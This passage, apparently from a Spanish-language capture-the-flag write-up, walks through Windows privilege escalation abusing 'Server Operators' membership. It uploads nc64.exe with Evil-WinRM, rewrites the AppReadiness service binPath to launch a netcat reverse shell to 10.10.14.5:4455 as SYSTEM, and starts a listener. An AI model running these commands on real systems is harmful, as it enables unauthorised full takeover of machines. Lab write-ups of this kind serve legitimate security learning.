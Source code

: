 ~~~bash
User profile
Home directory
Last logon                   10/29/2025 3:52:49 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
~~~
Se puede ver el grupo de "Server Operators", que es muy interesante porque permite una escalada de privilegios.
### Aprovechando privilegios del grupo "Server Operators"
Normalmente este grupo permite tener la posibilidad de poder inicar y detener servicios, asi que se puede buscar un servicio que ejecute el sistema y modificando ciertas propiedades del servicio se puede enviar una reverse shell como "nt authority\system"
Para ello normalmente existe un servicio comun "AppReadiness" que se ejecuta como system, asi que se probara ese.
~~~powershell
*Evil-WinRM* PS C:\temp> sc.exe qc AppReadiness
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
~~~
Revisando el servicio, este se ejecuta como LocalSystem, que es buena señal.
Mi idea es enviar una reverse shell, por lo que primero necesito subir el binario "nc64.exe".
~~~powershell
Evil-WinRM* PS C:\temp> upload nc64.exe
                                        
Info: Uploading /opt/shells/nc64.exe to C:\temp\nc64.exe
                                        
Data: 60360 bytes of 60360 bytes copied
                                        
Info: Upload successful!
~~~
Ahora si se debe modificar el "binPath" del servicio, que es lo que ejecuta al iniciar el servicio.
~~~bash
*Evil-WinRM* PS C:\temp> sc.exe config AppReadiness binPath= "cmd /c C:\temp\nc64.exe 10.10.14.5 4455 -e cmd.exe"
[SC] ChangeServiceConfig SUCCESS
~~~
Entonces, primero se abre una escucha en mi maquina atacante.
~~~bash
udo nc -nlvp 4455                                                                                    
[sudo] password for kali: 
listening on [any] 4455 ...
~~~
Y desde la sesion de winrm, se inicia el servicio.
~~~powershell
*Evil-WinRM* PS C:\temp> sc.exe start AppReadines
......
~~~
Esto deberia enviar la reverse shell, asi que viendo mi maquina atacante se verifica que si.